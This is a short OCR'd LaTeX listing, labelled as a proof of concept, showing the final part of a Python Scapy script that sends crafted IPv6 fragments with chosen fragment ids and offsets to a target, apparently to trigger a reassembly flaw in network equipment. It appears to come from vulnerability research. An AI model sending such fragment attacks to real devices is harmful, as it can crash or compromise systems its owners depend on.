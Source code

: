 \documentclass{report}
\begin{document}
\begin{verbatim}
    packet1 = bytes(packet1)

    frags = custom_fragment6(args.target, first_fragment_id, packet1, 60)

    print(f'Sending {len(frags)} fragments with a total size of 0x{hex(len(packet1))}')
    sendp(frags, iface= args.iface)

    packet2 = Ether() / IPv6(dst = args.target) / IPv6ExtHdrFragment(id = second_fragment_id, m = 0, offset = 1, nh = 17) / 'fritzboger' # dummy data

    sendp(packet2, iface = args.iface)
    
    return

if __name__ == '__main__':
    main()

\end{verbatim}
\label{listing:poc:python}
\end{document}
